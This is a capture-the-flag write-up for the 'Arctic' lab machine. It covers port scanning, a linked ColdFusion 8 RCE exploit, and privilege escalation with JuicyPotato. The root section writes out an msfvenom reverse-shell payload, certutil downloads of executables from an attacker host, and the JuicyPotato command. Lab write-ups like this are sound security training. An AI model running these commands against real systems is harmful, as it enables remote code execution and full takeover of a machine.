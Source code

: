 ## Arctic

Difficulty: Easy

### User Flag

```
rustscan -a 10.10.10.11 --ulimit 5000 -- -A -sV -sC
```

![rustscan](https://user-images.githubusercontent.com/58514930/224725901-10ff4e4f-03a3-4022-bec9-be6a9f5bd384.png)

<br>

There are some directory listing on port 8500.

![port8500](https://user-images.githubusercontent.com/58514930/224726492-0ad137be-743c-43d4-aced-920413a8e110.png)

<br>

Inside /CFIDE/Adminstrator there is Adobe Coldfusion 8.

![coldfusion](https://user-images.githubusercontent.com/58514930/224726598-69ce4972-1e9e-467d-ba48-f3b218384f87.png)

<br>

Searching for vulnerabilities, we found [this RCE exploit](https://www.exploit-db.com/exploits/50057
).

Edit the IPs and ports and execute it to get the user flag.

![editingExploit](https://user-images.githubusercontent.com/58514930/224727016-0812c624-3b60-437f-aeca-71ceac5b9c26.png)

![usingExploit](https://user-images.githubusercontent.com/58514930/224727078-e1988dd4-2bf4-4ea9-8da0-af6379ed2340.png)

### Root Flag

Enumerating the machine, we discover that our user has SeImpersonatePrivilege.

```
whoami /priv
```

![enumeratingPrivs](https://user-images.githubusercontent.com/58514930/224727453-c908c8d6-c289-4fc5-9ec2-93567f125a66.png)

<br>

We can use JuicyPotato to exploit this following [this guide](https://juggernaut-sec.com/seimpersonateprivilege/).

``` bash
# Just checking the S.O. version
systeminfo | findstr /B /C:"Host Name" /C:"OS Name" /C:"OS Version" /C:"System Type" /C:"Hotfix(s)"
Microsoft Windows Server 2008 R2 Standard

# Generating the executable that will be executed by nt system.
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.2 LPORT=80 -a x64 --platform Windows -f exe -o shell.exe

# Getting JuicyPotato and the shell on the victim machine.
certutil -urlcache -split -f "http://10.10.14.2:8000/JuicyPotato.exe" JuicyPotato.exe
certutil -urlcache -split -f "http://10.10.14.2:8000/shell.exe" shell.exe

# Exploiting
JuicyPotato.exe -t * -p shell.exe -l 443
```

![usingJuicy](https://user-images.githubusercontent.com/58514930/224728154-d6f430a6-f73c-4770-8fc8-1a02b6d8087d.png)

![gettingRoot](https://user-images.githubusercontent.com/58514930/224728134-06e55191-51ac-4a20-8c8f-c6312434936d.png)
